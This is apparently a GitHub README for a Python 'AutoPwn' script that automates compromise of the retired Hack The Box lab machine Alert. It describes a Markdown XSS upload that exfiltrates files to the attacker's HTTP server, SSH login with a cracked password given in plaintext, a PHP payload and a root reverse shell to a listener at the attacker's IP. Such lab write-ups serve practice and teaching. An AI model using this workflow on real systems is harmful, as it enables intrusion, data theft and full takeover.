# 🧨 HTB - Alert AutoPwn Script

This script fully automates the exploitation of the retired Hack The Box machine **Alert**, including both **initial intrusion** and **privilege escalation to root**. It leverages a Markdown-based XSS, a local HTTP server, and a PHP reverse shell.

---
## 📋 Description

The script operates in two attack phases, selectable via `--type-attack`:

1. `intrusion`: Uploads a malicious `.md` file containing JavaScript to extract files from the target via XSS.
2. `privesc`: Uses valid SSH credentials for user `albert`, deploys a malicious `shell.php`, and spawns a reverse shell as root.

---
## 🧠 Requirements

- Python 3.x
- `sshpass` and `netcat` (`nc`) installed
- HTB VPN connection active
- Known password for `albert` (retrieved by cracking a hash)

---
## ⚙️ Usage

### 🐞 Phase 1 - XSS Intrusion

Starts an HTTP server to receive exfiltrated data from the vulnerable application:

```bash
python3 autopwn.py --type-attack intrusion --ip 10.10.14.5 --port 8000
```

Arguments:
- `--ip`	Your VPN IP to receive the HTTP request
- `--port`	Listening port for HTTP server (default: 8000)
- `--url`	Target base URL (default: http://alert.htb)

### ⚔️ Phase 2 - Privilege Escalation

Once you have cracked albert's password, use this phase to gain a root shell:
```bash
python3 autopwn.py --type-attack privesc --ip 10.10.14.5 --port 4444 --ssh-pass manchesterunited
```
Additional Arguments:
- `--ssh-pass`	Password for albert (required for privesc)
- `--ip-victim`	Victim IP address (default: 10.10.11.44)

The script will upload and execute shell.php over SSH and open a listener for the root reverse shell.

### 🧪 Full Attack Flow

```bash
# Step 1: XSS intrusion and file exfiltration
python3 autopwn.py --type-attack intrusion --ip 10.10.14.5 --port 8000

# Step 2: After cracking albert’s hash...
python3 autopwn.py --type-attack privesc --ip 10.10.14.5 --ssh-pass manchesterunited
```
### 🛠️ Features

    ✅ Clean menu with per-phase argument validation
    ✅ Dynamic JS and PHP payload generation (base64-encoded)
    ✅ SSH automation with sshpass (no user interaction)
    ✅ Reverse shell with nc listener spawned from Python
    ✅ Optional port forwarding functionality built-in (not used in default setup)